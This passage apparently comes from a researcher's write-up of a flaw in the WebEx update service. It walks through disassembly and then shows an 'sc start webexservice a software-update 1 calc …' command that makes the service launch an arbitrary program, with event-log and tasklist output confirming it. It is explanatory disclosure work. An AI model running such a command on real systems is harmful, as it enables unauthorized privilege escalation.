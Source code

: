 ```
  <span class="Statement">.text</span>:<span class="Number">004026</span><span class="Identifier">B5</span>                 <span class="Identifier">jnz</span>     <span class="Identifier">short</span> <span class="Identifier">loc_4026C2</span>
  <span class="Statement">.text</span>:<span class="Number">004026</span><span class="Identifier">B7</span>                 <span class="Identifier">push</span>    <span class="Identifier">offset</span> <span class="Identifier">aInvalidStodArg</span> <span class="Comment">; &quot;invalid stod argument&quot;</span>
  <span class="Statement">.text</span>:<span class="Number">004026</span><span class="Identifier">BC</span>                 <span class="Identifier">call</span>    <span class="Identifier">ds</span>:?<span class="Identifier">_Xinvalid_argument</span>@<span class="Identifier">std</span>@@<span class="Identifier">YAXPBD</span>@<span class="Identifier">Z</span> <span class="Comment">; std::_Xinvalid_argument(char const *)</span>
```

The line with an error - <tt>wcstod()</tt> is close to where the <tt>abort()</tt> happened. I'll spare you the debugging details - debugging a service was non-trivial - but I really should have seen that function call before I got off track.

I looked up <tt>wcstod()</tt> online, and it's another of Microsoft's cleverly named functions. This one converts a string to a number. If it fails, the code references something called <tt>std::\_Xinvalid\_argument</tt>. I don't know exactly what it does from there, but we can assume that it's looking for a number somewhere.

This is where my advice becomes "be lucky". The reason is, the only number that will actually work here is "1". I don't know why, or what other numbers do, but I ended up calling the service with the commandline:

```
<span class="rubyConstant">C</span>:\<span class="rubyConstant">Users</span>\ron>sc start webexservice a software-update <span class="Number">1</span> <span class="Number">2</span> <span class="Number">3</span> <span class="Number">4</span> <span class="Number">5</span> <span class="Number">6</span>
```

And checked the event log:

```
  StartUpdateProcess::CreateProcessAsUser:1;1;2 3 4 5 6(18).
```

That looks awfully promising! I changed <tt>2</tt> to an actual process:

```
  <span class="rubyConstant">C</span>:\<span class="rubyConstant">Users</span>\ron>sc start webexservice a software-update <span class="Number">1</span> calc c d e f
```

And it opened!

```
<span class="rubyConstant">C</span>:\<span class="rubyConstant">Users</span>\ron>tasklist | find <span class="rubyStringDelimiter">"</span><span class="String">calc</span><span class="rubyStringDelimiter">"</span>
calc.exe                      <span class="Number">1476</span> <span class="rubyConstant">Console</span>                    <span class="Number">1</span>     <span class="Number">10</span>,<span class="Number">804</span> <span class="rubyConstant">K</span>
```
